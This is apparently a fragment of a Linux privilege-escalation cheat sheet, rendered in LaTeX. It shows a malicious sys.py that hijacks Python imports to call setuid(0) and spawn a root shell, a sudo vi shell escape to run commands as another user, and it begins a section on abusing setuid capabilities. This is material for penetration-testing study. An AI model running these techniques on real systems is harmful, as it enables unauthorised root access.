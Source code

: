 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
As you can see, when we use the keyword import in python, the first place python will check for importing a library is in the current working directory.
That means that taking the same dumby example if you create a malicious file and rename it by sys.py

\begin{Shaded}
\begin{Highlighting}[]
\ImportTok{import}\NormalTok{ os}

\NormalTok{os.setuid(}\DecValTok{0}\NormalTok{)}
\NormalTok{os.system(}\StringTok{"/bin/bash"}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

That's it\ldots{} by calling the previous script you will become root.

\hypertarget{wildcards}{%
\section*{WildCards}\label{wildcards}}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ -l}

\CommentTok{#output}
\ExtensionTok{User}\NormalTok{ x may run the following commands on y:}
    \KeywordTok{(}\ExtensionTok{user2}\KeywordTok{)} \ExtensionTok{NOPASSWD}\NormalTok{: /usr/bin/vi}


\FunctionTok{sudo}\NormalTok{ -u user2 /usr/bin/vi}
\CommentTok{# in vim you can now set commands as user2}

\NormalTok{:}\ExtensionTok{set}\NormalTok{ shell=/bin/bash}
\NormalTok{:}\ExtensionTok{shell}

\FunctionTok{whoami}
\CommentTok{#output}
\ExtensionTok{user2}
\end{Highlighting}
\end{Shaded}

\hypertarget{linux-capabilities-exploitation}{%
\section*{Linux capabilities exploitation}\label{linux-capabilities-exploitation}}

Check in the system if a tool have a special capability that can be used in order to escalate privileges (\textbf{cap\_setuid+ep})
\end{document}
